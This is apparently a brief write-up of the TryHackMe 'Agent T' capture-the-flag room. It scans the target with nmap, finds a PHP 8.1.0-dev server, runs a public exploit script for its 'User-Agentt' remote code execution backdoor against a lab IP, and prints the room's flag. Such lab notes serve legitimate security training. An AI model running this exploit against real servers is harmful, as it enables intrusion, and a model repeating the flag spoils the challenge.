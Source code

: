 # [Challenge](https://tryhackme.com/room/agentt)

- # ENUM
	- ### nmap (`nmap -p- -A -T4 agentT`)
		- 80 -> HTTP (PHP cli server 5.5 or later (PHP 8.1.0-dev))
			- Title: Admin Dashboard

- # EXPLOITATION
	- PHP 8.1.0-dev is vulnerable to "'User-Agentt' Remote Code Execution".
		- Let's run the script (`python3 49933.py http://10.10.242.36/` ) 
			- We're in! Let's find the flag: `find / -name *.txt 2>/dev/null`
				- `flag{4127d0530abf16d6d23973e3df8dbecb}`